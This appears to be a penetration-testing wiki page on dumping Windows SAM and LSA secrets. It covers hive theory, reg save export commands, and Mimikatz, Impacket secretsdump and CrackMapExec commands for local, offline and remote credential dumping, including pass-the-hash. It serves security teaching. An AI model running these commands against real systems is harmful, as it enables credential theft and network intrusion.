 ```yaml
---
description: 'MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005'
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM \(Security Account Manager\) and SECURITY.

<table>
  <thead>
    <tr>
      <th style="text-align:left">Hive</th>
      <th style="text-align:left">Details</th>
      <th style="text-align:left">Format or credential material</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SAM</td>
      <td style="text-align:left">stores local cached credentials (referred to as SAM secrets)</td>
      <td style="text-align:left">LM or NT hashes</td>
    </tr>
    <tr>
      <td style="text-align:left">SECURITY</td>
      <td style="text-align:left">stores domain cached credentials (referred to as LSA secrets)</td>
      <td
      style="text-align:left">
        <p>Plaintext password</p>
        <p>LM or NT hash</p>
        <p>MS-CACHE (a.k.a. DCC1, NT hash derivation) or MS-CACHE v2 (a.k.a. DCC2,
          MS-CACHE derivation)</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">SYSTEM</td>
      <td style="text-align:left">contains enough info to decrypt SAM secrets or LSA secrets</td>
      <td style="text-align:left">N/A</td>
    </tr>
  </tbody>
</table>

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives.

## Practice

### Exporting hives

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM 'C:\path\to\sam.save'
reg save HKLM\SECURITY 'C:\path\to\security.save'
reg save HKLM\SYSTEM 'C:\path\to\system.save'
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS \(e.g. when booting the computer on another operating system\). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

### Dumping secrets

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives \(and `SYSTEM` for the encryption keys\), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}

{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../abusing-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../abusing-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}
{% endtabs %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" caption="" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" caption="" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

